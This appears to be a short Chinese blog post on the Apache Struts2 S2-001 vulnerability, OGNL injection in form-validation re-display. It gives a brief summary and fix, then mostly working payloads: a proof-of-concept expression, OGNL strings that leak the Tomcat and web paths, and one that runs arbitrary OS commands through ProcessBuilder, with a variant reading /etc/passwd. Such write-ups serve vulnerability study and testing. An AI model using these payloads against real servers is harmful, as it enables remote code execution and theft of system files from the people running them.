 文章地址：[https://www.codemonster.cn/2018/03/28/2018-struts2-001/](https://www.codemonster.cn/2018/03/28/2018-struts2-001/)
# 漏洞摘要
```
官方链接：https://cwiki.apache.org/confluence/display/WW/S2-001
官方概述：Remote code exploit on form validation error
影响版本：Struts 2.0.0 - Struts 2.0.8
修复摘要：数据 re-display 时禁止执行 OGNL 表达式
```

# 漏洞利用
### POC:
```
username=xishir&password=%{1+1}
```
![](https://www.codemonster.cn/img/s2/s2-001-2.png)  
### EXP:
获取tomcat执行路径：
```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```
获取Web路径：
```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
执行任意命令：
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
带参数的命令：`new java.lang.String[]{"cat","/etc/passwd"}`
![](https://www.codemonster.cn/img/s2/s2-001-3.png)
